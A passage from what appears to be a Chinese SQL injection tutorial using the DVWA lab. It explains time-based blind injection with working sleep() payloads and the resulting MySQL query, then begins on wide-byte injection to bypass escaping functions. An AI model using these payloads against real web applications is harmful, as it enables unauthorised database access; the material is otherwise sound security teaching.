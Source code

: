 
### 4、基于时间的盲注

有些数据库对错误信息做了安全配置，使得无法通过以上方式探测到注入点，此时，通过设置sleep语句来探测注入点。

```sql
1' and sleep(10) -- aaa
1
```

![在这里插入图片描述](72、sql注入/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDAzMjIzMg==,size_16,color_FFFFFF,t_70-20201112153150959.png)
根据浏览器状态判断sleep语句知否被带入到数据库中执行。

```sql
注入语句：
1' or sleep(2) -- aaa
1' and sleep(2) -- aaa

SQL注入语句解析：
mysql> select first_name,last_name from dvwa.users where user_id='1' and sleep(2) -- '
123456
```

![在这里插入图片描述](72、sql注入/20200803151133485.png)

### 5、宽字节注入

因为大多数的网站对于SQL注入都做了一定的方法，例如使用一些Mysql中转义的函数addslashes，mysql_real_escape_string，mysql_escape_string等(还有一种是magic_quote_gpc，不过PHP高版本已经移除此功能)。其实这些函数就是为了过滤用户输入的一些数据，对特殊的字符加上反斜杠“\”进行转义，所以在条件符合的情况下可利用宽字节注入绕过这些函数。